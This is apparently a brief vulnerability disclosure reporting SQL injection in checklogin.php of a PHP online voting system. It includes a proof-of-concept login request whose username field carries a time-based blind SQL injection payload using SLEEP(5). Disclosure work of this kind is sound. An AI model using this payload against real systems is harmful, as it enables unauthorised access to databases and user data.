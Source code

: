 # SQL Injection in Online Voting System
Source code: https://www.sourcecodester.com/php/14690/online-voting-system-phpmysqli-full-source-code.html

## Code Audit
Due to useless validation in `checklogin.php`, a SQL injection vulnerability is introduced. The code is as follows:

![](1.jpg)

## Result of Sqlmap

![](2.jpg)

## POC
```
myusername=11@qq.cc' AND (SELECT 5807 FROM (SELECT(SLEEP(5)))yDQs) AND 'gFem'='gFem&mypassword=22&Submit=Login
```